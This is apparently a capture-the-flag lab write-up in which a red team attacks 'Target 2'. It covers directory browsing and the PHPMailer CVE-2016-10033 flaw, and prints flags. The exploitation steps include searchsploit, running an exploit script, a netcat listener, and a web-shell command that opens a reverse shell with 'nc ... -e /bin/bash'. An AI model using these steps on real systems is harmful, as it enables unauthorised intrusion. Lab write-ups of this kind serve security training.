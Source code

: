 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    **Vendor Directory Index view from the browser**
     
    ![1](/Images/4/6.PNG) 

    PATH File: **Flag1**

    ![2](/Images/4/7.PNG)        
     
    **PHPMAILER version**

    ![4](/Images/4/9.PNG)    

---

**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a threat actor through a reverse shell that will bypass the inbound rules of a firewall.


    ![7](/Images/4/7.PNG)  

    4. `searchsploit phpmailer`

     ![8](/Images/4/8.PNG)  

    4. `sudo chmod 777 exploit.sh`

    5. `./exploit.sh`

    6. In kali: `nc -lnvp 4444`

    7. `192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash`

    ![14](/Images/1/14.png)

    8. `Find /var/www -type f -name .flag*’`

    9. Go to browser and put `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`

    ![15](/Images/1/15.png)